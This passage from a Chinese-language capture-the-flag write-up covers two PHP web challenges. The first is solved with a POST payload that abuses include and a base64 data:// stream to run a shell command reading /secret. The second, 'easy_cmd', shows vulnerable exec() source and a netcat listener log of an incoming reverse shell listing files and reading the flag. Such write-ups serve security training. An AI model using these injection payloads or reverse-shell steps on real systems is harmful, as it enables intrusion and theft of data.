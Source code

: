 flag在secret里面，当时还找了半天，连了蚁剑才找到😓

### 第二种

**include**可用，`: / ,`都没过滤，就可以用php伪协议

```php
POST num1=1;include "data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgL3NlY3JldCcpOz8%2B";&symbol=%2B&num2=1
```



+++

## easy_cmd

+++

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

$cmd=$_POST['cmd'];

if(preg_match("/^\b(ping|ls|nc|ifconfig)\b/",$cmd)){
        exec(escapeshellcmd($cmd));
}
?>
```

### 第一种(非预期)

据群主说，本来是不想出网的，出网之后导致这题异常简单，不值300分

```sh
服务器监听端口
[root@VM-4-16-centos ~]# nc -lvvp 3296
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::3296
Ncat: Listening on 0.0.0.0:3296
Ncat: Connection from 49.235.148.38.
Ncat: Connection from 49.235.148.38:35563.
ls
index.php
ls /
bin
dev
etc
home
lib
media
mnt
opt
proc
root
run
sbin
secret
srv
sys
tmp
usr
var
cat /secret
```